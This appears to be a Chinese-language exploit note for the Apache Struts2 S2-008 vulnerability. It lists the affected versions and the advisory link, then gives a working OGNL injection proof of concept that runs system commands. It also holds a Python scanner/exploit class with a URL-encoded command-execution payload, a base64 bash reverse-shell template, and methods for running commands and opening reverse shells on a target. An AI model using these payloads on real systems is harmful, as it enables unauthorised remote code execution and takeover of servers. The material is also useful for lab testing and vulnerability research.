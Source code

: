 # Struts2-008

## 漏洞介绍

Struts2-008存在中的多个关键漏洞,而Struts2-008主要是利用对传入参数没有严格限制，导致多个地方可以执行恶意代码，传入`?debug=command&expression=`即可执行OGNL表达式

## 漏洞版本

影响版本：Struts 2.1.0 – 2.3.1

官方通告：https://cwiki.apache.org/confluence/display/WW/S2-008

## poc

```java
devmode.action?debug=command
    &expression=(
    %23_memberAccess["allowStaticMethodAccess"]=true,
    %23foo=new java.lang.Boolean("false"),
    %23context["xwork.MethodAccessor.denyMethodExecution"]=%23foo,             
    @org.apache.commons.io.IOUtils@toString(
        @java.lang.Runtime@getRuntime().exec('env').getInputStream()
    )
)
```

## 扫描器

```python
class S2_008:
    """S2-008漏洞检测利用类"""
    info = "[+] S2-008:影响版本Struts 2.1.0-2.3.1; GET请求发送数据; 支持任意命令执行和反弹shell"
    exec_payload = "/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27{cmd}%27%29.getInputStream%28%29%29)"

    shell = "bash -c {echo,SHELL}|{base64,-d}|{bash,-i}"

    def __init__(self, url, data=None, headers=None, encoding="UTF-8"):
        self.url = url
        self.headers = parse_headers(headers)
        self.encoding = encoding
        self.is_vul = False

    def check(self):
        """检测漏洞是否存在"""
        html = echo_check(self)
        if str(html).startswith("ERROR:"):
            return html
        if html:
            self.is_vul = True
            return 'S2-008'
        return self.is_vul

    def exec_cmd(self, cmd):
        """执行命令"""
        payload = self.exec_payload.format(cmd=quote(cmd))
        html = get(self.url + payload, self.headers, self.encoding)
        return html

    def reverse_shell(self, ip, port):
        """反弹shell"""
        html = reverse_shell(self, ip, port)
        return html
```

## 参考

>https://github.com/vulhub/vulhub/blob/master/struts2/s2-008/README.zh-cn.md
